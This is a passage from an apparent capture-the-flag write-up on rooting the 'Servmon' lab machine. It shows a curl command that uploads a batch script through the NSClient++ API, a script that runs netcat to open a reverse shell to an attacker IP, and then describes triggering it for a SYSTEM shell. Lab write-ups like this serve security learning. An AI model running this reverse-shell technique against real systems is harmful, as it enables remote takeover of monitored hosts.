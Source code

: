 Anyhow:

    curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Temp\nc.exe 10.10.15.248 5555 -e cmd.exe"

Again, the IP address of "10.10.15.248" and the port "5555" will need to be changed to match your machines IP and the port of your choice.

We were prompted for the admin password, enter that from above and you should receive the message: "Added evil as scripts\evil.bat"

I tried to follow the commands to execute the script using the API but was met with a big fat no.

![errorexecute](/assets/images/servmon/servmonexe.png)

Demoralised and confused as to why it wouldn't run I decided, by chance, to query the list of scripts to see what was there... 

    curl -s -k -u admin https://localhost:8443/api/v1/queries

Again entering the password for the web admin password, but this time the command line just hung. So I checked my listener and to my surprise a shell!

Running whoami to see the fruits of my labour:

![authsystem](/assets/images/servmon/servmonsystem.png)

Grabbing the root flag:

![rootflag](/assets/images/servmon/servmonroot.png)

And that's that. Servmon rooted, thanks for reading. This box taught me a lot ranging from SSH forwarding to using curl to download files and interact with APIs.

